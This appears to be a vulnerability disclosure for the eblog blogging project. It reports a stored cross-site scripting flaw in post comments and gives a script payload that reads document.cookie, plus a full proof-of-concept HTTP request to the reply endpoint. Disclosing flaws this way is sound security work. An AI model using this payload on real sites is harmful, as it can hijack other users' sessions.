 system url:https://github.com/MarkerHub/eblog  
Log in as a test007 user and leave a comment in the comments section of the post using the malicious code we have prepared.  
payload:<script>alert(document.cookie)</script>  
<img width="415" alt="image" src="https://github.com/biantaibao/eblog_xss/assets/131763503/602cc7f2-0b15-48db-aea1-e562231e6b9a">  
POC:  
POST /post/reply/ HTTP/1.1  
Host: localhost:8080  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0  
Accept: application/json, text/javascript, */*; q=0.01  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
X-Requested-With: XMLHttpRequest  
Content-Length: 63  
Origin: http://localhost:8080  
Connection: close  
Referer: http://localhost:8080/post/2  
Cookie: Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1704964720; JSESSIONID=619AE47A2A22C9A7E23A64C324D778E1; Hm_lpvt_f8cddee34ca21f05373a9388cfdd798b=1704964720  

content=%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E&jid=2  


When other users log in and click on the post, malicious code will be triggered, taking MarkerHub users as an example.  
<img width="415" alt="image" src="https://github.com/biantaibao/eblog_xss/assets/131763503/1d91f4b6-a3f5-4dc2-9efe-e51107ff0bdc">

